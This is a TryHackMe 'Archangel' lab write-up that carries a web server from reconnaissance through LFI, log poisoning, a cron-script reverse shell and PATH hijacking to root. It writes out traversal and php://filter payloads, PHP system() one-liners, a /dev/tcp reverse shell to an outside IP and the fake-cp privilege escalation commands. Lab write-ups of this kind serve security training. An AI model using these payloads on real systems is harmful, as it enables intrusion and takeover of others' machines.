





Greetings everyone, hope you are well. Today I had the opportunity to analyze Archangel, başmelek in Turkish from TryHackMe platform.
Add your ip address to hosts file to make customizable domain. This is a local method to override DNS resolution and create your own domain mappings for testing, development, or other purposes.
Run commands respectively
nano /etc/hosts<ipv4 address> <customized domain name>Control S and X
Final Result:

Reconnaissance
The faster you conduct reconnaissance, the more time you gain for the vulnerability detection and exploitation phases. Cyber intelligence is always a significant asset in understanding the technology an application uses and its vulnerability scope.
As penetration testers, we frequently seek to move directly to the vulnerability exploitation phase, but we should first gather information about the target, whether it involves application testing or local area network assessments. That's why I conducted a curl scan to identify HTTP ports 80, 443, and Apache 8080. If further investigation is required, we should also perform a full-port scan. The technique I usually use is a demand-based approach, meaning we apply what is necessary based on the situation.
Let's use curl:
curl -v cuneyt.sevgi
By default it will automatically move forward to port 80
There is nothing on other ports 443 and 8080:
Port 80 successfully identified web page's html structure and prompted as terminal output. Let me first analyze the source code's comment part and manually investigate with browser.
I saw an email address with domain @mafialive.thm as an internal information.

After a couple of page discover attempts, there was nothing especially uniquely identifiable data on the page content. Nearly entire page consisting default configuration texts, source files and so on...


Majority of the navigation elements redirected me to empty hyperlinks. Therefore, it would be suitable to fuzzing phase.
I utilized couple of tools including dirsearch, dirb, gobuster.
Used Payloads:
- dirsearch -u http://cuneyt.sevgi
- dirb http://cuneyt.sevgi
- gobuster dir http://cuneyt.sevgi -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
I deliberately ended the gobuster scan due to the length of wordlist. It also detected the paths included in both dirseach and dirb.


dirb and gobuster was trying to recursively fuzz the entire directory structures ,so I terminated the process.
After I navigated through /flags/ endpoint there was a file, redirected me to this page:
There was not any clues about flags. Therefore, it was suitable to conduct port scan. Furthermore, you can reach out the web server version & type.

Wappalyzer result:

I conducted different port scans with below commands:
sudo nmap -sV -T4 -p 20-1000 cuneyt.sevgi
sudo nmap -sV -sC cuneyt.sevgi
sudo nmap -T4 -A cuneyt.sevgi
However, the results were not sufficient to move to the exploitation phase. There must be undiscovered content on the web application or a web-based vulnerability to gain a shell on the target. That's why I would like to move the content referred to a youtube video where I previously demonstrated techniques in the fuzzing phase.
Notice: I could not find anything technical part such as dynamic page rendering content or backend instance. Observe the answer format: something.***.

After a long time, I was suspicious about the email and its domain. Although I tried different approach against target, I also wanted to add the given hostname mafialive.thm. Maybe there was another gate (web app or static page) for different DNS resolution. Technically, there was not anything since I applied main & essential methodologies on the instance.
Immediately change & refresh the page then result was different:

Let's check test.php and robots.txt.
Contents of endpoints:

User-agent: All bots (crawlers)
Disallow: These bots cannot crawl this endpoint.

It looks like LFI/RFI.
Full URL included form:
http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php
I tried to reach etc/passwd file in order to understand whether I have LFI or not. However, it did not work.
payload that I used:
../../../../../etc/passwd
Maybe the page initiates a filtering or blocking mechanism on the payload. Therefore, I covered HackTricks
about the path/directory traversal titled article. To understand how to bypass any restrictions. I have known this technique before since in Deloitte bootcamp, I specifically asked for URL encoding to make adaptable payload for target then immediately our instructor Mücahit Ceri told us that sometimes we cannot directly apply LFI instead we should find wrapper mechanism to pass filtering used by target application.
Firstly, I attempted such payload as a fresh start:
http://mafialive.thm/test.php?view=PhP://filter
I used payload in a wrong way because it should be at the beginning of the endpoints ,but still it stucks then I switched on OWASP's guided payload:
php://filter/convert.base64-encode/resource=/etc/passwd

It did not work. After half an hour, I found a page where the payload adjusted as php://filter/read=convert.base64-encode/resource=.
I tried for /etc/hosts ,yet would not work. However, I kept the path as it is then it worked & encoded base64 formatted.
`http://mafialive.thm/test.php?view=
As you can see below, it gave us to the output of the php application called mrrobot.php.
Null byte injection could be suitable ,but it did not work %00.
http://mafialive.thm/test.php?view=php://filter/read=convert.base64-encode/resource=/etc/passwd%00
I have also retrieved test.php as an output xD (Does not necessary). On the other hand, instead of using Cyberchefas a decoder, I decided to work with different tool because I have never found something beneficial.
Using this tool and trying it gave me the ultimate result:
<!DOCTYPE HTML>
<html>
<head>
<title>INCLUDE</title>
<h1>Test Page. Not to be Deployed</h1>
</button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
<?php
//FLAG: thm{explo1t1ng_lf1}
function containsStr($str, $substr) {
return strpos($str, $substr) !== false;
}
if(isset($_GET["view"])){
if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
include $_GET['view'];
}else{
echo 'Sorry, Thats not allowed';
}
}
?>
</div>
</body>
</html>
Got it ! ! !
if the user attempts ../../ in the input field then it will be sanitized by application. Moreover,
secon constraint was the file path's itself user cannot try to navigate /var/www/html/development_testing. It first $_GET[], built in PHP array responsible for content of the intended endpoint. containStr method tries to validate whether destination endpoint is consisting /var/www/html/development_testing/ path.
For instance,
I attempted to read /etc/passwd file with the help of the LFI ,but it did not give me the /etc/passwd file in base64. Because of the restricted endpoint, I was not able to reach the target base64 formatted passwd file. Since it did not directly including main path. Due to the latest endpoint we were not allowed to move parent directories recursively by using ../../. In addition, user must use more than two consecutive dots to reach / then reach etc directory.
http://mafialive.thm/test.php?view=php://filter/read=convert.base64-encode/resource=/etc/passwd
After that thanks to the source code, it was not tough to bypass resctrictions, I just added extra // between every .. string.
php://filter/read=convert.base64-encode/resource=/var/www/html/development_testing/..//..//..//..//etc/passwd
we have such user:
archangel:x:1001:1001:Archangel,,,:/home/archangel:/bin/bash
In Deloitte's Cyber bootcamp, we have learnt to how to use web servers logs to achieve log poisoning by reaching it LFI.
We do not need to use php://filter and base64 utility anymore because we found how to bypass restrictions. We should elevate LFI to RCE so as to reach initial compromise phase.
I found a useful resource to elevate LFI to RCE especially when intercepting burp's intercept to apply reverse shell. Firstly, I was wrong about the path to include commands. Instead of error.log, I should have analyzed access.log since access log stores mainly http requests ,so adversary can embed malicious commands or codes.
Reason why we require to include log file is that I needed to include my payload as an internal process or command to target. Therefore, we have to run commands through headers located in each request.
Even if the web server running on nginx, we can also apply the same approach in apache.
PHP can be used in two different way:
<?=
<?php
In this scenario, you can achieve both with the help of system() method in PHP.
Used payload:
<?php system('ls') ?>
<?= system('ls') ?>
Let's try PHP one-liner reverse shell against target:
To get reverse shell, we can use reverse shell generator(Web-Based) instead I would like to use my own tool called shell_bringer.
Reach out here
you can directly run the tool like this:
python shell_bringer_test.py
Follow my steps in below:
- Select option
1 - Select
PHP(option9) - Give
IPv4option as4 - Enter
TUN0ip address. - Enter intended port (1984)
- start with rlwrap or not
Program Output:
Now I wanted to understand default cmd variable's instance on target. GET method may help to achieve this since I could not abuse the User-Agent to retrieve reverse shell in each attempt server gets down. I needed to make LFI to RFI so as to make target eligible for downloading in my local files. Therefore, it would run directly it.
<?php system($_GET['$cmd']) ?>
Generating variable, used in url parameter as cmd can be suitable to include local python server's url.
As an example I generated $cmd variable in the target by using access log then intended to run id with the system method through command parameter ($cmd).
Now we are the user www-data by default, reach the user flag from archangel user directory located on /home/archangel.
I could not find anything related to privilege escalation vector. That's why, I uploaded linpeas.sh from it's generic github repo.
Reach out here below:
Notice: I deliberately downloaded on tmp directory because every user in linux can run commands from here.
Let's run it:
Observe we are the user on web server:

Crontab had direct horizontal privilege escalation vector in every minute user archangel was running helloworld.sh script.
From my perspective, I was able to modify the script let's see:
The script could be readable, writeable and every minute system calls it:
$ cat helloworld.sh
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
Now append the payload below:
sh -i >& /dev/tcp/10.14.92.189/1900 0>&1
I do not want to wait for it ,so I tried and blocked by kernel to run the script. Immediately, I got reverse shell. However, it was www-data because the script is ran by www-data service.
Patience was the strongest element in this CTF session :)
Get flag 2 from secret directory located in /home/archangel
I tried generic command to understand the user's eligible binaries sudo -l ,but sudo requires tty terminal process let's upgrade shell:
Normally, most of the shell upgrade operations done by python binary ,so I checked for python binary and found python3:
I upgraded my shell by using such payload from above website:
python3 -c 'import pty; pty.spawn("/bin/bash")'

I tried sudo -l ,yet asked me to give password. Therefore, I moved another strategy on secret directory. There was a binary named backup straightly running another service by root.
When I attempted to run script, It gave an error indication cp operation on the directory not created.
I reminded that there was another directory on opt named backupfiles. What if we try to cp the provided path to the target.

However, this was not work since I did not have any files on this path.
/home/user/archangel/myfiles/*
What about embedding another binary /bin/bash -i so as to get root shell:
cp binary is called with a relative name instead of the absolute path so we can make it called a controlled one.
I used similar approach used from GetTheFuckOutBinaries.
-> reach
LFILE=file_to_write
TF=$(mktemp)
echo "DATA" > $TF
sudo cp $TF $LFILE
It gave me error indicating Not a directory ,so using man I found mktemp usage with -d parameter.
man mktemp
To make persistent my binary path /bin/cp, I also call the PATH variable and added my customized path to the target.
I was creating a binary path representing fake cp command ,but nearly similar as /bin/cp.
However, I manipulated correct path with /bin/sh. Since I gave all the users executable permissions, backup binary successfully executed the command ,yet it reached different path point, /bin/sh. Then directly invoked shell with root privileges because of the backup script's privileges.
erkanucar=$(mktemp -d)
echo '/bin/sh' > "$erkanucar/cp"
chmod a+x "$erkanucar/cp"
export PATH=$erkanucar:$PATH
Finally, reach the root flag from /root/ path.
May The Pentest Be With You ! ! !